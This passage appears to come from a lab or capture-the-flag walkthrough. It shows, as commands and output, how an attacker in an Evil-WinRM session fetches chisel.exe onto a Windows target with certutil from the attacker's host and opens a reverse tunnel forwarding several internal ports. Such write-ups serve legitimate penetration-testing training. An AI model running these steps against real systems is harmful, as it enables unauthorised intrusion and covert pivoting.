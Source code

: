 #### 6.2.1. Establish Chisel connection

Start chisel listener on Kali

```console
root@kali:~# chisel server --reverse --port 8080
2024/12/26 16:15:28 server: Reverse tunnelling enabled
2024/12/26 16:15:28 server: Fingerprint vVivkFQEORVV0Q95jbdroyZ1gDi6pZcpIhGkXFstJlU=
2024/12/26 16:15:28 server: Listening on http://0.0.0.0:8080
```

Download Windows Chisel to Kali web server

```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/download/v$VERSION/chisel_${VERSION}_windows_amd64.gz
gzip -d chisel_${VERSION}_windows_amd64.gz
mv chisel_${VERSION}_windows_amd64 /var/www/html/chisel.exe
```

On Target:

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/chisel.exe
****  Online  ****
  000000  ...
  94f000
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> .\chisel.exe client 10.10.14.35:8080 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
chisel.exe : 2024/12/26 06:06:17 client: Connecting to ws://10.10.14.35:8080
    + CategoryInfo          : NotSpecified: (2024/12/26 06:0...0.10.14.35:8080:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/12/26 06:06:17 client: Connected (Latency 5.6289ms)
```

Kali should show connected:

```
2024/12/26 22:06:17 server: session#1: Client version (1.10.1) differs from server version (1.10.1-0kali1)
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14118=>14118: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14119=>14119: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14121=>14121: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14122=>14122: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14123=>14123: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14125=>14125: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14126=>14126: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14127=>14127: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14128=>14128: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14130=>14130: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14406=>14406: Listening
```
